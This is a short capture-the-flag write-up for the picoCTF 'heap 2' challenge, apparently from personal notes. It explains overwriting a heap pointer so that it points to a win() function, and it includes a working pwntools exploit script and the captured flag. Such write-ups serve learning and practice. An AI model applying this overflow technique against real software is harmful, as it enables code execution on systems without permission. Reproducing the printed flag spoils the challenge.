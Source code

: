```yaml
---
ai_date: '2025-04-27 05:29:34'
ai_summary: Exploited heap overflow to overwrite x as a pointer, pointing to 'win()'
  function, achieving remote code execution (RCE) in a 64-bit environment.
ai_tags:
- heap
- rop
- rce
created: 2024-08-08T01:09
updated: 2024-08-08T01:15
---
```


Just like `heap 1` we need to overwrite `x`.

| Variable     | Address     | Data   |
| ------------ | ----------- | ------ |
| `input_data` | `0x1d902b0` | `pico` |
| `x`          | `0x1d902d0` | `bico` |

But this time `x` will be used as a pointer and run.

We want it to point to `win()` of course.

Since we are in the 64bit world the pointer should be 64 bit too.

```python
from pwn import *
elf = context.binary = ELF("./chall")
t = remote('mimas.picoctf.net', 59926)
# t = elf.process()
t.sendlineafter(b": ", b"2")
t.sendlineafter(b": ", b"A"*32+p64(elf.symbols['win']))
t.sendlineafter(b": ", b"4")
info(t.recvall())
```

```flag
picoCTF{and_down_the_road_we_go_dde41590}
```